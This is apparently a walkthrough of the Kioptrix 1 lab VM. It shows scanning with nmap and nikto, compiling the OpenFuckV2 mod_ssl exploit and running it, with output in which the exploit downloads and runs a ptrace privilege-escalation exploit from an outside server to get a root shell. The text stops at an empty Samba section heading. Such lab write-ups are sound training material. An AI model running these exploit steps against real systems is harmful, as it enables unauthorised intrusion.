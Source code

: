 ```yaml
---
layout: post
title: Kioptrix 1 Walkthrough
---
```


Kioptrix VMs are meant as entry level pentest challenges where the goal is to get root privileges.
Download [Kioptrix 1 here](http://www.kioptrix.com/blog/test-page/) or from [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#download).

<h3>Finding the Host</h3>

Using <code>netdiscover</code> the IP address of the target is found.

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># netdiscover -r 192.168.201.0/24 -i eth0

 Currently scanning: Finished!   |   Screen View: Unique Hosts        
 19 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1140
 _________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname  
 -------------------------------------------------------------------------
 192.168.201.1   00:50:56:c0:00:08     14     840  VMware, Inc.
 192.168.201.2   00:50:56:fa:93:9d      3     180  VMware, Inc.
 <span class="out-line">192.168.201.132 00:0c:29:75:c4:41      1      60  VMware, Inc.</span>
 192.168.201.254 00:50:56:e2:0c:13      1      60  VMware, Inc.
</pre>

<h3>Enumeration</h3>

An <code>nmap</code> scan shows 6 open ports on the host:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nmap -sV -p- -T4 192.168.201.132

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-07 17:02 EST
Nmap scan report for 192.168.201.132
Host is up (0.000076s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:75:C4:41 (VMware)
</pre>

<h3>Enumeration:80/tcp http</h3>

A <code>nikto</code> scan yields some useful information on the host's webserver:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># nikto -h 192.168.201.132
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.201.132
+ Target Hostname:    192.168.201.132
+ Target Port:        80
+ Start Time:         2017-12-12 15:01:51 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ ... (other nikto output) ...
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<span class="out-highlight">+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</span>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ ... (other nikto output) ...
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-12-12 15:02:16 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
</pre>

Searching online for CVE-2002-0082 produces a corresponding PoC exploit: [Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow](https://www.exploit-db.com/exploits/764/)

<h3>Enumeration:139/tcp netbios-ssn</h3>

The samba version running on the host is identified using MSF's <code>smb_version</code> module:

<pre class="console-output">
<u>msf</u> auxiliary(<span class="prompt">smb_version</span>) > run

<span class="dir"><b>[*]</b></span> 192.168.201.132:139   - Host could not be identified: Unix (<span class="out-highlight">Samba 2.2.1a</span>)
<span class="dir"><b>[*]</b></span> Scanned 1 of 1 hosts (100% complete)
<span class="dir"><b>[*]</b></span> Auxiliary module execution completed
</pre>

Searching online for this samba version also yields an exploit:<br> [Samba < 2.2.8 (Linux/BSD) - Remote Code Execution](https://www.exploit-db.com/exploits/10/)<br>
MSF: [Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open)

<h3>Exploitation:80/tcp http</h3>

A copy of the OpenFuckV2.c is copied into the current dir, which contains [instructions on how to update](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) and compile it. Once updated, trying to compile in Kali Linux produces some errors using <code>gcc</code>:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># searchsploit -m 764
Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit
    URL: https://www.exploit-db.com/exploits/764/
   Path: /usr/share/exploitdb/platforms/unix/remote/764.c

Copied to: /root/764.c

<span class="prompt">root@kali</span>:<span class="dir">~</span># ... (steps to update openfuck exploit) ...

<span class="prompt">root@kali</span>:<span class="dir">~</span># gcc -o OpenFuck 764.c -lcrypto
<b>764.c:645:24:</b> <span class="prompt">error:</span> ‘<b>SSL2_MAX_CONNECTION_ID_LENGTH</b>’ undeclared here (not in a function); did you mean ‘<b>SSL_MAX_SSL_SESSION_ID_LENGTH</b>’?
  unsigned char conn_id[<span class="prompt">SSL2_MAX_CONNECTION_ID_LENGTH</span>];
                        <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span>
                        <span class="out-green">SSL_MAX_SSL_SESSION_ID_LENGTH</span>
<b>764.c:</b> In function ‘<b>read_ssl_packet</b>’:
<b>764.c:847:19:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_ERROR</b>’ undeclared (first use in this function); did you mean ‘<b>SSL_METHOD</b>’?
    if ((buf[0] == <span class="prompt">SSL2_MT_ERROR</span>) && (rec_len == 3)) {
                   <span class="prompt">^~~~~~~~~~~~~</span>
                   <span class="out-green">SSL_METHOD</span>
<b>764.c:847:19:</b> <span class="out-teal">note:</span> each undeclared identifier is reported only once for each function it appears in
<b>764.c:</b> In function ‘<b>get_server_hello</b>’:
<b>764.c:979:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_HELLO</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (*(p++) != <span class="prompt">SSL2_MT_SERVER_HELLO</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_master_key</b>’:
<b>764.c:1071:10:</b> <span class="prompt">error:</span> dereferencing pointer to incomplete type ‘<b>EVP_PKEY {aka struct evp_pkey_st}</b>’
  if (pkey<span class="prompt">-></span>type != EVP_PKEY_RSA) {
          <span class="prompt">^~</span>
<b>764.c:</b> In function ‘<b>get_server_verify</b>’:
<b>764.c:1148:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_VERIFY</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_HELLO</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_VERIFY</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_HELLO</span>
<b>764.c:</b> In function ‘<b>send_client_finished</b>’:
<b>764.c:1160:11:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_CLIENT_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_FINISHED</b>’?
  buf[0] = <span class="prompt">SSL2_MT_CLIENT_FINISHED</span>;
           <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
           <span class="out-green">SSL3_MT_FINISHED</span>
<b>764.c:</b> In function ‘<b>get_server_finished</b>’:
<b>764.c:1173:16:</b> <span class="prompt">error:</span> ‘<b>SSL2_MT_SERVER_FINISHED</b>’ undeclared (first use in this function); did you mean ‘<b>SSL3_MT_SERVER_DONE</b>’?
  if (buf[0] != <span class="prompt">SSL2_MT_SERVER_FINISHED</span>) {
                <span class="prompt">^~~~~~~~~~~~~~~~~~~~~~~</span>
                <span class="out-green">SSL3_MT_SERVER_DONE</span>
</pre>

This can be solved by running <code>apt-get install libssl1.0-dev</code>. This allows us to run the exploit, which displays a list of possible targets, and telling from the infromation gathered by <code>nikto</code> (RedHat running Apache 1.3.20), 2 results match the host:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># gcc -o OpenFuck 764.c -lcrypto
<span class="prompt">root@kali</span>:<span class="dir">~</span># ./OpenFuckV2

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuckV2 target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
	0x00 - Caldera OpenLinux (apache-1.3.26)
	0x01 - Cobalt Sun 6.0 (apache-1.3.12)
 ... ( other exploit output ) ...
	<span class="out-highlight">0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2</span>
 ... ( other exploit output ) ...
	0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
	0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
</pre>

After some unsuccessful attempts, running the exploit with the <code>0x6b</code> offset does the trick:

<pre class="console-output">
<span class="prompt">root@kali</span>:<span class="dir">~</span># ./OpenFuckV2 0x6b 192.168.201.132 443 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--19:03:42--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--19:03:42--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

19:03:43 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 1498
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
hostname
kioptrix.level1
</pre>

The exploit completes successfully and a root level shell is spawned.

<h3>Exploitation:139/tcp netbios-ssn</h3>
